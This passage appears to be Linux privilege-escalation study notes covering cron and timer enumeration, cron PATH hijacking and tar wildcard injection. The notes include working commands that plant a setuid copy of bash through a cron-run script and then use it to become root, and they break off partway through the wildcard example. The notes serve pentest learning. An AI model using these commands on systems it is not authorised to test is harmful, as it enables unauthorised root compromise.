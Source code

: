 Some common capabilities to look for:
- tar
- openssl
- perl

# 8. Scheduled Task <a name="Sheduled"></a>

#### Crons job & Systemd Timers overview

`cat /etc/crontab`

Check for task running every minute or 5 minutes etc.  
"*" across all means task is running every minutes.  
[PayLoadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)

`systemctl list-timers --all`

* * *

#### Escalaion via cron paths

First see PATH and check which location is it checks first.  
Check if the task is present in the first location if not create a task in the same name which is having malicious code.

`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh` if [overwrite.sh](http://overwrite.sh) is a task.

Make [overwrite.sh](http://overwrite.sh) executable using `chmod +x overwrite.sh`

Wait for the code to execute.

then we can execute `/tmp/bash -p` this will excalate to root user.

* * *

#### Cron Wildcards

Check what the task is doing by using cat.

Check whether its using wild card *. Then we can do injection here.

For example:  
/usr/local/bin/compress.sh is task.

`cat /usr/local/bin/compress.sh` to check what its doing, suppose:

```sh
#!/bin/sh

cd /home/user
tar czf  /tmp/backup.tar.gz *
```

In the above example its making some backup and its using wildcard.
`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh`
